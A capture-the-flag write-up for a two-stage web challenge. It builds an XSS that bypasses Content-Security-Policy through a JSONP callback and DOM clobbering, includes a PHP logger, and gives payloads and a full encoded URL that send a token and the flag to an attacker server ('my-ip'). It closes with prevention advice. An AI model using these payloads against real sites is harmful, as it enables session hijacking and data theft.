 # Stage 1
## First thoughts:
When I first visited the site, I first saw the 3 buttons which quickly turned out to do nothing interesting. Then I saw the search box and realized the input there is directly written to the URL as the `search` attribute and inserted into the  page without filtering. That's when I realized the potential for an XSS here.

## Trying to get an XSS to work
After inserting a default XSS vector `<script>alert("XSS")</script>` I realized that the CSP header is set to `Content-Security-Policy:  default-src 'self' http://*.xss.allesctf.net; object-src 'none'; base-uri 'none';`. So no chance of getting script tags to work. I started too look for alternatives and saw that there is a script executed which comes from `/items.php?cb=parseItems`. This site creates a Javascript command which executes the function which is forwarded by the `cb` attribute with a json representation of the things you can buy. So by passing `alert("XSS")//` to the site. It would create a script which would show the alert box. Also the script comes from a source which matches the CSP headers `default-src 'self' http://*.xss.allesctf.net;`, because it has the URL [http://xss.allesctf.net/items.php?cb=alert("XSS")//](http://xss.allesctf.net/items.php?cb=alert(%22XSS%22)//). Now I can just set this URL as the script `src ` and add it to the document by inserting it into the `search` attribute. SO all in all I get this [http://xss.allesctf.net/?search=<script+src=http://xss.allesctf.net/items.php?cb=alert("XSS")//></script>](http://xss.allesctf.net/?search=<script+src=http://xss.allesctf.net/items.php?cb=alert('XSS')//></script>). Now I have an XSS on Stage 1 and could execute whatever I want.

# Stage 2
## First thoughts:
Upon opening Stage 2 I saw the goal. I had to get the flag from the admin. I saw the change background function and didn't think much of it. Also I saw the CSP header `Content-Security-Policy: script-src 'nonce-WliETdBMd5Z/HQG6kbx3Hn850EQ=' 'unsafe-inline' 'strict-dynamic'; base-uri 'none'; object-src 'none';` has set a nonce. So I didn't thought a XSS is possible and though about possible Session Hijacking attacks.

## Session Hijacking:
The session is constructed by 2 factors here. The first is the token, which gets passed to the Stage 2 site. The second is the `PHPSESSID `which is provided by the request from the browser and has the `httponly `flag set.
### Getting the token
The token wasn't that hard to get. I setup an Apache Server with XAMPP and wrote a little PHP script

```
<?php
header ('Location:https://google.com');
$cookies = $_GET["c"];
$file = fopen('log.txt', 'a');
fwrite($file, $cookies . "\n\n");
?>
```
All it does is, it gets reads the parameter passed to it `c` to a local file `log.txt` and forwards the browser to google.com just to see something for testing purposes. If I now call http://my-ip/t.php?c=TEST, then TEST gets written to the log file.  So now using the XSS from Stage 1 I can get the token by setting `search=window.open("".concat("http://my-ip/t.php?c=",stage2.href))//>`.
### Getting the PHPSESSID:
Now let's get to the tricky part, getting the session cookie. The hard part is, that the cookie has set the `http-only` flag, so it isn't possible to get this cookie through JS. But then I thought maybe I can regenerate the session cookie myself. After looking into it I saw you need the current time. So I realized that the token is just the UNIX timestamp in microseconds. So I had the time, but then I saw there is also some random value from the OS inside the algorithm so I decided this wasn't the right path.

## Flag stealing
### Preparation
So the only other way to get the flag is to steal it from the admin directly. But for that I need a XSS vector. So I decided to give the CSP header a second look and realized that the `strict-dynamic` flag is set. That means, that if I could generate a script DOM object I could execute whatever I want. But if I could generate a script I also could just as well use this method to execute anything. So I looked for other things.
I noticed that the background which can be set to 3 different images is persistent between refreshes. So it probably is linked to the session.
With this knowledge I tried to use this and intercepted with Burp the request which sets the background value, so I could use Burp to set the `bg` value to whatever I want. After some testing I realized that the value is directly inserted into the value attribute  `<input type="hidden" id="bg" value="red">`. So I could just as well pass `bg=red">Hello World` and the background would be set to the red image and Hello World was printed out. That was great but I couldn't do anything useful with that.
So I searched for something else and found it inside the [backgrounds.js](http://stage2.xss.allesctf.net/static/js/background.js) file. When the browser loads the site `$("body").append(backgrounds[$("#bg").val()]);` get executed and I had control over what the value of `bg` was. But I needed control over the `backgrounds` array too. 
After looking for ways to manipulate the array without the use of JS I realized that because of the positioning of the input and the script which creates the backgrounds array, I could just comment the whole script so it doesn't get created. I remembered that HTML objects which have set an `id` can be accessed by it. So if I had `<img id="backgrounds">`, a backgrounds object would be defined. If I now also give this an attribute like `<img id="backgrounds" alt="TEST">` then it could be accessed by `backgrounds["alt"]`. Now I could set `bg=alt"><img id="backgrounds" alt="TEST"><!--` and not only TEST gets added to the file because of the alt attribute but it also gets added because of `backgrounds.js`.
Now going back to the `strict-dynamic` CSP header flag I could set the `alt=<script>alert('XSS2')</script>` and the alert gets executed.
### The flag
To steal the flag I could do the same as I had stolen the token and send the flag via `window.open` to me.
The whole was then setting `bg=alt"><img id="backgrounds" alt="<script>window.open(''.concat('http://my-ip/t.php?c='%2Bdocument.getElementsByTagName('b')[0].innerText))</script>"><!--` and the flag got send to me.
#Assembly of the exploit
I had Stage 1 and 2 figured out by now I had to think about how to set the `bg` value from Stage 1. The obstacle was that there was no cors header inside the response but luckily if I fetch, I could set `mode='no-cors'` so that the request gets send correctly but I couldn't access the response which I didn't care about. 
So by first executing `b='bg=alt%22><img+id=%22backgrounds%22alt=%22<script>window.open(%27%27.concat(%27http://my-ip/t.php?c=%27%2Bdocument.getElementsByTagName(%27b%27)[0].innerText))</script>%22><!--'` I set the variable b to the body which will get send by fetch. Because I am gonna send this I can encode this and don't have to deal with quote problems. Now execute fetch `fetch(stage2.href,{headers:{'Content-type':'application/x-www-form-urlencoded'},method:'POST',credentials:'include',mode:'no-cors',body:b})` which will send the body and finally open Stage 2. I have to open Stage 2 after the request got send. So I just wait 3 seconds and then call `stage2.click()` or with the wait `setTimeout(function(){stage2.click();},3000)`. This opens the Stage 2 site which sends the flag to my server.
The last step is now to assemble a single URL which I can open to send the flag to my server. Because the XSS I found on Stage 1 has a character limit of 250 I have to split the script. Luckily I already have a nice split. The first script sets the body variable and the second executes the whole thing.

`
http://xss.allesctf.net/?search="<script src=items.php?cb=b='bg=alt%252522%25253E%25253Cimg%2Bid=%2522backgrounds%2522alt=%2522%25253Cscript%25253Ewindow.open(%252527%252527.concat(%252527http://my-ip/t.php?c=%252527%25252Bdocument.getElementsByTagName(%252527b%252527)[0].innerText))%25253C/script%25253E%252522%25253E%25253C!--'//></script><script src=items.php?cb=fetch(stage2.href,{headers:{'Content-type':'application/x-www-form-urlencoded'},method:'POST',credentials:'include',mode:'no-cors',body:b});setTimeout(function(){stage2.click();},3000);//>
`

That's the final URL I have encoded some quotes in the b variable multiple times so they don't collide with other quotes. In the end I can now send this URL to the admin via the [submit] page (http://submit.xss.allesctf.net/), wait 3 seconds and get the flag inside the log.txt file.

# Prevention
The big problem here is like so often that the user input doesn't get sanitized correctly. Like the fact that I could insert whatever I want in Stage 2 for the `bg ` value. Or in Stage 1 everything got inserted unescaped what was searched for. The second problem is the `items.php` file. There is no reason to use JSONP in this context because in the intended way it would be static.
If both user inputs got sanitized or escaped correctly and the `items.php` file got replaced by a static JSON then the site wouldn't have a way to steal the flag.